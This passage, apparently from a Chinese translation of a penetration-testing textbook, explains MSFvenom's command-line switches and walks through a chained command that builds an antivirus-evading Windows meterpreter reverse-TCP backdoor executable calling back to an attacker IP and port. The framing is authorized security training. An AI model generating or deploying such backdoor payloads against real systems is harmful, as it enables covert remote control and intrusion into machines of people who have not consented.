 在进行渗透测试时，存在着您和客户之间定义的信任级别。当您将任何有效负载投放到他们的环境中时，例如规避杀毒软件以在您的系统中创建后门，您需要确保有效负载只连接回您。代码中不应该有任何可能导致客户环境真正妥协的错误。

在您学习本节中定义的各种工具时，请确保明确定义目标将连接回的系统 IP。这样做将确保您在职业生涯的初步学习阶段强化信任的概念。

# MSFvenom

MSFvenom 是 Metasploit 框架的命令行工具的一部分。它用于生成各种 shellcode，可用于提供对系统的后门。

MSFvenom 中的一些常见开关如下：

| -`-l` | 这用于显示每个类别（编码器、有效负载、格式、加密器等）中所有模块的列表。例如，使用`msfvenom -l payloads`将显示当前可用的有效负载集。 |
| --- | --- |
| -`-p` | 这定义将使用的有效负载。例如，使用`msfvenom -p windows/x64/meterpreter_reverse_https`命令将定义 meterpreter 反向 HTTPS 有效负载。 |
| -`-f` | 这定义了输出格式。例如，您可能想要创建一个`.exe`或`.c`文件。 |
| -`-b` | 这用于消除坏字符。杀毒软件会寻找诸如`\x00`之类的坏字符。 |
| -`-e` | 这用于定义将使用的编码器。例如，常用的编码器之一是`/x86/shikata_ga_nai`。 |
| -`-i` | 这用于定义对 shellcode 进行编码的最大次数。 |
| -`-a` | 这用于定义架构。例如，`-a x64`将创建一个 64 位的 shellcode。 |
| `--platform` | 这用于定义 shellcode 将针对的平台。例如，对于 Windows 操作系统，可以使用`--platform Windows`。 |

MSFvenom 有更多的选项和开关；前面的表格描述了在创建有效负载时通常使用的内容。

MSFvenom 允许您将多个命令链接在一起。这是通过在每个命令的末尾使用`| \`序列来完成的。

要使用一系列命令创建有效负载，请按照以下步骤进行。注意每个命令末尾的`| \`序列。

从终端窗口，输入以下命令：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.34.153 LPORT=8080 -f raw -e x86/shikata_ga_nai -i 15  | \
msfvenom -a x86 --platform windows -e x86/countdown -i 9  -f raw | \
msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o MSFV-payload.exe

```

当您完成输入上述命令后，您应该得到以下输出：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/lrn-pentest/img/6371948d-f93c-4879-b68a-e4bbf90c0ffd.png)

图 1：MSFvenom 命令链

在命令的第一行中，我们正在定义要使用的`meterpreter/reverse_tcp`有效负载。然后我们定义我们攻击主机的 IP（`LHOST`）和端口（`LPORT`）。然后我们使用原始格式（`-f`），并使用`shikata_ga_nai`编码器（`-e`）进行 15 次迭代（`-i 15`）。

在命令的第二行中，我们通过现在定义架构（`-a`），平台，这种情况下是 Windows（`--platform`），以及使用 9 次迭代的`x86/countdown`编码器进一步对原始文件进行编码。

最后，我们通过再次运行`shikata_ga_nai`编码器并使用`-f exe -o`选项创建一个`exe`文件来编译这个。

一旦命令执行，它将创建一个名为`MSFV-payload.exe`的后门文件，存储在`/root/Downloads/`文件夹中。

